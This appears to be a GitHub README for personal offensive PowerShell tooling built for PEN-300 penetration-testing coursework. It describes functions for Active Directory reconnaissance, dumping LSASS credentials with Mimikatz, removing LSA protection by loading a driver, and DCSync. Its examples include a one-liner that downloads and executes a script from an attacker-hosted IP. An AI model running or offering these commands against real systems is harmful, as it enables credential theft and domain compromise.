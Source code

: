# osep_pwntools
Bespoke tooling for PEN-300 coursework

## pwn.ps1
This PowerShell utility script enumerates common host-based restrictions, such as whether LSA protection is disabled or AppLocker restrictions are in place.
If the system is domain-joined, the `adrecon` function is a wrapper utility for quick PowerView-based insights that can provide context for lateral movement opportunities.
The `getcreds` function is a wrapper utility for `Out-Minidump.ps1` and `Invoke-Mimikatz.ps1`, and can dump process memory from LSASS and parse out local credentials. If the `-lsa` flag is specified, it will load `mimidrv.sys` in order to remove this protection first. If the user has DCSync privileges it will also attempt to obtain them, as well as any trust link hashes.

**Note:** The `-ipaddress` specifies your IP address where the dependency scripts are being hosted (assumed on TCP/80). Use the `-port` option to specify a different port.
#### Examples

```powershell
iex(iwr 192.168.22.121/pwn.ps1 -usebasicparsing)
adrecon -ipaddress LHOST_IP

getcreds -ipaddress LHOST_IP
getcreds -ipaddress LHOST_IP -lsa
```
